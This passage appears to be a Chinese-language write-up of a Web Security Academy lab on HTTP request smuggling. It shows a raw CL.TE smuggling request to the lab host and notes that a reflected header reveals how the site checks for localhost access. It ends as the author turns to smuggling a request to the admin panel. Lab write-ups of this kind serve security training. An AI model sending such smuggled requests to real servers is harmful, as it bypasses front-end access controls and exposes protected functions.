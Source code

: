 可以回显到页面，构造走私请求

```
POST / HTTP/1.1
Host: 0a1200b903053b0282156bfa004000f7.web-security-academy.net
Content-Length: 105
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded

search=test
```

![image-20240503104531548](images/16.png)

看到了添加的请求头X-MdrGUx-Ip，应该是由这个判断是否是127.0.0.1访问的

接下来走私访问admin面板
